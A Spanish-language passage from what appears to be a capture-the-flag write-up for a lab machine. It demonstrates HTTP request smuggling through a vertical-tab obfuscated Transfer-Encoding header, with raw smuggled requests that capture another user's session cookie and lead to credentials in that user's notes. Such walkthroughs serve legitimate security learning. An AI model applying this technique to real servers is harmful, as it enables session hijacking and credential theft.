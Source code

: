 > [ ! ] Notas: Es possible que tengamos que encodear en base64 el 
```bash
 [\x0b] 
```
 antes de ponerla en el burpsuite y tenemos que darle al Follow redirect en este caso.

Aqui podemos ver que hemos podido enviar 2 peticiones al mismo tiempo, una nos da el mensaje **None** y la segunda nos sale **Adios**, lo que significa que
es vulnerable a **HTTP Request Smuggling**.

Intentamos cosas y nos damos cuenta que si agregamos mas content length a la segunda request podemos ver parte de la request del delete.


```bash
POST /comment HTTP/1.1
Host: 10.10.10.225:5000
Content-Type: application/x-www-form-urlencode
Content-Length: 10
Cookie: lang=es-ES; i_like_gitea=604fd0a0f47a3b62; _csrf=4/PDrYQpzOFpi6ZlhMOToLe6YnY6MTYzMTk5NTE4zUONzY2NzY2Mg;
 redirect_to=&2Froot; session=eyJlbWFpbCI6InMOdmlOyXJaczR2aXRhci5jb20ifQ.YU2HdQ.qlIPX6awl0v1C8A8UXGUHfLXFJo
Transfer-Encoding:[\x0b]chunked

0

POST /comment HTTP/1.1
Host: 10.10.10.225:5000
Content-Type: application/x-www-form-urlencode
Content-Length: 50
Cookie: lang=es-ES; i_like_gitea=604fd0a0f47a3b62; _csrf=4/PDrYQpzOFpi6ZlhMOToLe6YnY6MTYzMTk5NTE4zUONzY2NzY2Mg;
 redirect_to=&2Froot; session=eyJlbWFpbCI6InMOdmlOyXJaczR2aXRhci5jb20ifQ.YU2HdQ.qlIPX6awl0v1C8A8UXGUHfLXFJo

msg=a


```

Si ponemos 
```bash
 Content-Length: 300 
```
 podemos ver una cookie de session que no es la misma que la nuestra.
Cambiamos la cookie en el Firefox y vamos a 
```bash
 /notes 
```
 podemos ver notas differentes que contienen credenciales para nuevos **Hosts** que añadimos al 
```bash
 /etc/hosts 
```
.

